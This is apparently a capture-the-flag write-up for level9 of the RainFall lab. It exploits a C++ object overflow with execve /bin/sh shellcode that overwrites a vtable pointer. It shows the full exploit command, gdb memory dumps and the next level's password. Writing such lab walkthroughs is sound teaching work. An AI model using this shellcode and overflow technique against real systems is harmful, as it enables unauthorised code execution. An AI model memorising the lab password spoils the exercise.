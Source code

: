 # Walkthrough

## Solution
```
./level9 $(python -c "print 'A' * 63 + '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh' + '\x78\xa0\x04\x08'")
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728

```
## Explanation

### Execution

```
level9@RainFall:~$ ./level9 
level9@RainFall:~$ ./level9 hello
level9@RainFall:~$ ./level9 hello you
```
-> The programs does nothing  

### Disassembly

```
info var
All defined variables:
Non-debugging symbols:
0x08048840  vtable for N
0x08048850  typeinfo name for N
0x08048854  typeinfo for N

info function
0x080486f6  N::N(int)
0x0804870e  N::setAnnotation(char*)
0x0804873a  N::operator+(N&)
0x0804874e  N::operator-(N&)
```  

--> This is a C++ program.  
➜  RainFall git:(main) c++filt  _Znwj (to demangle a C++ name)
operator new(unsigned int)


You can view the commented asm code [here](Ressources/assembly.asm)  
You can view the asm code translated to C [here](source.c)  

### Steps

```
(gdb) run
Starting program: /home/user/level9/level9 
[Inferior 1 (process 2657) exited with code 01]
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
Starting program: /home/user/level9/level9 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9

Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
(gdb) info register
eax            0x41366441	1094083649
```  
--> Overflow offset is at 108. (https://wiremask.eu/tools/buffer-overflow-pattern-generator/?)  


```
Starting program: /home/user/level9/level9 $(python -c "print 'A' * 4 + 'B' * 104 + 'CCCC'")
Breakpoint 3, 0x0804867c in main ()
1: x/i $pc
=> 0x804867c <main+136>:	mov    0x10(%esp),%eax
(gdb) x/32wx $eax
0x804a00c:	0x41414141	0x42424242	0x42424242	0x42424242
0x804a01c:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a02c:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a03c:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a04c:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a05c:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a06c:	0x42424242	0x42424242	0x42424242	0x43434343
0x804a07c:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb) x/x 0x804a00c + 4
0x804a010:	0x42424242
```  
The buffer starts at 0x804a00c.

shellcode: '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh' - 45 chars


//////////////////////////////////////////////

./level9 $(python -c "print 'A' * 63 + '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh' + '\x78\xa0\x04\x08'")
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728

---


# NOTES


Breaking at 0x08048677 (just before calling setAnnotation)
```
(gdb) x/28wx 0x0804a00c
0x804a00c:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a01c:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a02c:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a03c:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a04c:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a05c:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a06c:      0x00000000      0x00000005      0x00000071      0x08048848
```

- with argument AAAA:
```
(gdb) x/28wx 0x0804a00c
0x804a00c:      0x41414141      0x00000000      0x00000000      0x00000000
0x804a01c:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a02c:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a03c:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a04c:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a05c:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a06c:      0x00000000      0x00000005      0x00000071      0x08048848
```

- with shellcode:
```
(gdb) x/28wx 0x0804a00c
0x804a00c:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a01c:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a02c:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a03c:      0x41414141      0x41414141      0x41414141      0xeb414141
0x804a04c:      0x76895e1f      0x88c03108      0x46890746      0x890bb00c
0x804a05c:      0x084e8df3      0xcd0c568d      0x89db3180      0x80cd40d8
0x804a06c:      0xffffdce8      0x69622fff      0x68732f6e      0x0804a078
```

At address 0x0804a078, we had 0x08048848. We overrid it with 0x0804a078.

---

Breaking at 0x08048693 (just before calling edx):

- with argument AAAA:
```
(gdb) i r
eax            0x804a078        134520952
ecx            0x41414141       1094795585
edx            0x804873a        134514490
ebx            0x804a078        134520952
(gdb) x/i 0x804873a
   0x804873a <_ZN1NplERS_>:     push   %ebp
(gdb) x/wx 0x804873a
0x804873a <_ZN1NplERS_>:        0x8be58955
```

- with shellcode:
```
(gdb) i r
eax            0x804a078        134520952
ecx            0x804a078        134520952
edx            0x804a078        134520952
ebx            0x804a078        134520952
(gdb) x/i 0x804a078
   0x804a078:   js     0x804a01a
(gdb) x/wx 0x804a078
0x804a078:      0x0804a078
```
In the address 0x0804a078, we stocked an assembly operation `0x0804a078`, which corresponds to `js     0x804a01a`

source. test

- with AAAA
```
(gdb) i r
eax            0x80487d8        134514648
ecx            0x41414141       1094795585
edx            0x9b05008        162549768
ebx            0x9b05078        162549880
```

- with shellcode:
```
(gdb) i r
eax            0x80487d8        134514648
ecx            0x804a078        134520952
edx            0x9d93008        165228552
ebx            0x9d93078        165228664
```
